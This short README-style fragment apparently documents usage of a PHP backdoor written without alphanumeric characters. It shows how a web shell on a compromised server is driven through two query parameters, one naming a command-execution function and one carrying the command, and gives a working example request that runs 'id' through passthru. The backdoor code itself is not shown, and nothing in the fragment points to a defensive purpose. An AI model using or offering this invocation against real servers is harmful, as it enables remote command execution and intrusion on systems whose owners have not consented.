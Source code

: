 # PHP Backdoor Usage
## For simple-non-alphanumerics
- Usage: blabla.php?_=<systeme xec function>&__=<command>
- Example: blabla.php?_=passthru&__=id

